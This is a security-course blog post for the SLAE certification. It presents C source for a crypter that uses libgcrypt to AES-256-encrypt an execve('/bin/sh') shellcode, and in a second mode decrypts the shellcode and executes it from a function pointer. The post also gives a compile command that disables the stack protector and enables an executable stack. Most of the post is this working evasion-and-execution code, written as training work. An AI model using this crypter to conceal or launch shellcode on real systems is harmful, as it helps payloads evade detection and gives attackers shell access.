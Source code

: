 ```yaml
---
comments: true
date: 2014-05-12
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
summary: 'This is the last assignment for the SLAE'
tags: [asm-x86,nasm,slae]
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

	//Description:	Assignment #7 (PoC of Crypter using AES-256)
	//Author:		Paolo Stivanin <https://github.com/paolostivanin>
	//SLAE ID:		526

	#include <stdio.h>
	#include <string.h>
	#include <gcrypt.h>
	#include <stdint.h>
	
	#define ENC 1

	static void crypt(int, size_t, uint8_t *);

	uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

	#if !ENC
		uint8_t encShell[] = "";
	#endif

	uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
	uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
	const char *key = "securitytubeSLAE";

	int
	main (void)
	{
		int i, ag = gcry_cipher_map_name("aes256");
		size_t ln = strlen(origShell);
		uint8_t *buf = malloc(ln);

		crypt(ag, ln, buf);
		#if ENC
			for(i=0; i<ln; i++){
				printf("\\x%02x", buf[i]);
			}
			printf("\n");
		#else
			int (*ret)() = (int(*)())buf;
			ret();
		#endif

		free(buf);

		return 0;
	}

	static void
	crypt(  int algo,
			size_t len,
			uint8_t *buf)
	{
		gcry_cipher_hd_t hd;
		gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
		gcry_cipher_setkey(hd, key, 16);
		gcry_cipher_setiv(hd, iv, 16);
		gcry_cipher_setctr(hd, ctr, 16);
		#if ENC
			gcry_cipher_encrypt(hd, buf, len, origShell, len);
		#else
			gcry_cipher_decrypt(hd, buf, len, encShell, len);
		#endif
		gcry_cipher_close(hd);
	}

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**
